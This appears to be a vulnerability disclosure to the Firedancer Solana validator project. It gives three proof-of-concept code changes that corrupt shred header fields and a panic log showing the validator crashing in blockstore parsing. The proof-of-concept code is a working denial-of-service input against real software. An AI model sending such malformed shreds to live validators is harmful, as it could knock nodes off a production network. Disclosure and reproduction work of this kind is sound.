 The project side realized that the modified content shown by the git diff needs to be synchronized to the local environment. By executing make -j fddev and sudo fddev --no-sandbox, a crash can be triggered.

```c
diff --git a/src/app/fdctl/run/tiles/fd_shred.c b/src/app/fdctl/run/tiles/fd_shred.c
index 193a4b3d..87f9a86b 100644
--- a/src/app/fdctl/run/tiles/fd_shred.c
+++ b/src/app/fdctl/run/tiles/fd_shred.c
@@ -602,6 +602,23 @@ after_frag( void *             _ctx,
   /* Add whatever is left to the last shred34 */
   s34[ fd_ulong_if( s34[ 3 ].shred_cnt>0UL, 3, 2 ) ].est_txn_cnt += ctx->shredded_txn_cnt - txn_per_s34*s34_cnt;

+
+  //poc1
+  s34[0].pkts[0].shred.fec_set_idx=((uint)-1);
+
+  //poc2
+  /*
+  for (int i = 0 ; i!=4;i++){
+    s34[i].pkts[0].shred.data.size=255;
+  }
+  */
+  //poc3
+  /*
+  for (int i = 0 ; i!=4;i++){
+    s34[i].pkts[0].shred.data.parent_off=255;
+  }
+  */
+
   /* Send to the blockstore, skipping any empty shred34_t s. */
   ulong sig = in_idx!=NET_IN_IDX; /* sig==0 means the store tile will do extra checks */
   ulong tspub = fd_frag_meta_ts_comp( fd_tickcount() );
```
After making the following modifications to the code, executing `make -j fddev` and then running `sudo fddev --no-sandbox` will trigger a crash.

```shell

...
thread '<unnamed>' panicked at ledger/src/blockstore.rs:299:58:
called `Result::unwrap()` on an `Err` value: InvalidErasureShardIndex((ShredCommonHeader { signature: wUTba7NxTNAN4rKkX49WMhtF8hqm9uweqstrL3quC7voLTwXZNqUUo9dMeX62hYhzqeuyvB1a2YLXTpE8A9n8S1, shred_variant: MerkleData { proof_size: 5, chained: false, resigned: false }, slot: 1, index: 0, version: 46355, fec_set_index: 4294967295 }, DataShredHeader { parent_offset: 1, flags: ShredFlags(0x0), size: 1103 }))
note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
ERR     07-27 14:06:06.053931 693837 f17  0    metrics/src/metrics.rs(283): datapoint: panic program="validator" thread="?" one=1i message="panicked at ledger/src/blockstore.rs:299:58:
called `Result::unwrap()` on an `Err` value: InvalidErasureShardIndex((ShredCommonHeader { signature: wUTba7NxTNAN4rKkX49WMhtF8hqm9uweqstrL3quC7voLTwXZNqUUo9dMeX62hYhzqeuyvB1a2YLXTpE8A9n8S1, shred_variant: MerkleData { proof_size: 5, chained: false, resigned: false }, slot: 1, index: 0, version: 46355, fec_set_index: 4294967295 }, DataShredHeader { parent_offset: 1, flags: ShredFlags(0x0), size: 1103 }))" location="ledger/src/blockstore.rs:299:58" version="0.101.11817 (src:e60d9a62; feat:4215500110, client:Firedancer)"
ERR     07-27 14:06:06.164377 693744 f0   pidns src/app/fdctl/run/run.c(368): tile solana-labs:0 exited with code 1
...

```

Only the crash log for PoC1 is listed here. Replacing the code of PoC1 with PoC2 and PoC3 will yield different crash reasons. We believe that there are at least three different vulnerabilities in the parsing code here that could lead to crashes.